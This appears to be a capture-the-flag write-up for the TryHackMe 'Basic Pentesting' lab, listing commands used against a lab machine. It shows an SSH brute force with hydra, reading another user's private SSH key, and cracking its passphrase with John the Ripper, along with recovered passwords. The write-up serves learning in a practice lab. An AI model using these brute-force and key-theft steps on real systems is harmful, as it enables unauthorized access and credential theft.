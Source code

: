 # TRYHACKME : BASIC PENTESTING
***NOTE: Straight forward write-up without flags.***
So if you're looking for direct flags/answers, this is not the write-up for you. On the other hand, if you're here to enjoy the process, this might help you. If not, mb.

## nmap 
```
nmap -sVC -T5 -A 10.10.194.148
```

(Ports:
22
80
139
445
8009
8080)

## gobuster 
```
gobuster dir -u http://10.10.194.148/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```

(/development)

## enum4linux 
```
enum4linux 10.10.194.148
```
(shells: /Anonymous /IPC$)

## smbclient 
```
smbclient //10.10.194.148
[no pass]
dir
get staff.txt
```
(staff.txt)

## hydra 
```
hydra -t 64 -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.194.148
```
(host: 10.10.194.148   login: jan   password: armando)

## ssh 
```
ssh jan@10.10.194.148
```

### enumeration
- hostname: basic2
- whoami: jan
- uname -a: Linux basic2 4.4.0-119-generic
- os: ubuntu version 16.04.4

```
---- DIRECTORY TREE ----
/home: jan, kay
/home/kay: 
        file=pass.bak; 
        hidden dir=.ssh;
                file=authorized_keys, id_rsa, id_rsa.pub

/home/jan: .lesshst
```

### priv esc 
```
cat home/kay/.ssh/id_rsa
```
(save id_rsa to local txt file)

### ssh2john.py ###
```
cd /usr/share/john
./ssh2john [FILEPATH]
```
(save the hash to new txt file)

### john the ripper ###
```
john --wordlist=/usr/share/wordlists/seclists/Passwords/ id-rsa-hash.txt
```
(result: beeswax)

### ssh ###
```
ssh -i id_rsa kay@10.10.175.0
(passphrase: beeswax)
cat pass.bak
```
